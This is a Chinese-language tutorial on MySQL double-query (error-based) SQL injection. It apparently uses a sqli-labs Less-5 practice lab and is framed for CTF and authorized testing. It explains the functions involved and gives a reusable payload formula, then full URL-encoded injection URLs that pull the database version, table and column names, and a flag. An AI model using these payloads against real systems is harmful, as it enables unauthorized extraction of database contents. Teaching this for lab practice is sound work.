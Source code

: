 


## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、什么是双查询

简单来说，双查询注入就是一个select语句中在嵌套一个select语句。具体如下图:

![](img/2.5/1.png)

在执行上述语句的过程中，先执行select user()语句，然后再将该语句的结果传递给外面的select函数。由内到外依次执行。

## 三、基本函数

首先我们先学习几个函数

1.rand()

>RAND 函数用于产生从0到1之间的随机数。

![](img/2.5/2.png)

2.Floor()

>FLOOR(X)表示向下取整，只返回值X的整数部分，小数部分舍弃。

![](img/2.5/3.png)

3.count()

>COUNT(*)函数返回由SELECT语句返回的结果集中的行数。COUNT(*)函数计算包含NULL和非NULL值的行，即：所有行。

![](img/2.5/4.png)

4.group by

>GROUP BY 语句用于结合合计函数，根据一个或多个列对结果集进行分组。

不懂的可以看一下这里：

>http://www.w3school.com.cn/sql/sql_groupby.asp

5.concat()

>CONCAT 函数用于将两个字符串连接为一个字符串

![](img/2.5/5.png)

## 四、双查询注入原理

一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。

固定公式如下

>union select 1,count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a--+

报错注入看似比较难，但是使用相对简单。只要在注入语句处，换成我们前两次课程注入语句即可注入成功。

关于这几个函数在一起为什会报错在这里不做详细的叙述，有兴趣的可以看下面这篇文章

>http://www.anquan.us/static/drops/tips-14312.html



## 五、实战

1.我们按照之前的方法逐步进行手工注入，当判断完列数，然后判断回显位置的时候.发现并没有回显位置。

![](img/2.5/6.png)

拿出我们刚刚的固定公式，查一下数据库的版本。

>链接：
http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/7.png)

这里需要说明一点的是，因为这是是随机报错。如果一次报错没有出来，多次刷新即可。


2.查数据库名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20database()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/8.png)

3.查表名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

此时发现报错了，我们使用limit 0,1 来限制一下行数。

>LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。MySQL LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0

我们可以通过查看limit参数来查看其他的表，比如我们查看第二行的表（limit 1,1）

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%201,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

成功发现falg表。

![](img/2.5/9.png)

4.查列名

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name ="flag" ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/10.png)

5.查数据

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select flag from flag ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/11.png)

## 六、课后练习

CTF赛题地址：https://t.zsxq.com/UNbM33F
